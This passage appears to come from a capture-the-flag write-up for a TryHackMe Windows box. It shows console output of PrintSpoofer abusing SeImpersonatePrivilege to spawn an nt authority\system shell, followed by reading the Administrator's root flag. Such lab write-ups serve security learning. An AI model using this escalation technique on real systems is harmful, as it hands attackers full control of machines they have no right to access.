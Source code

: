 ## Execution on the windows box
```console
c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
And now we are nt authority\system.

## Reading the root flag
```console
C:\Windows\system32>cd \users\administrator\desktop
cd \users\administrator\desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\Users\Administrator\Desktop

07/25/2020  07:24 AM    <DIR>          .
07/25/2020  07:24 AM    <DIR>          ..
07/25/2020  07:25 AM                35 root.txt
               1 File(s)             35 bytes
               2 Dir(s)  20,269,117,440 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
THM{1fk5kf****************45pv}
```

<script data-name="BMC-Widget" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="reddevil2020" data-description="Support me on Buy me a coffee!" data-message="Thank you for visiting. You can now buy me a coffee!" data-color="#FFDD00" data-position="Right" data-x_margin="18" data-y_margin="18"></script>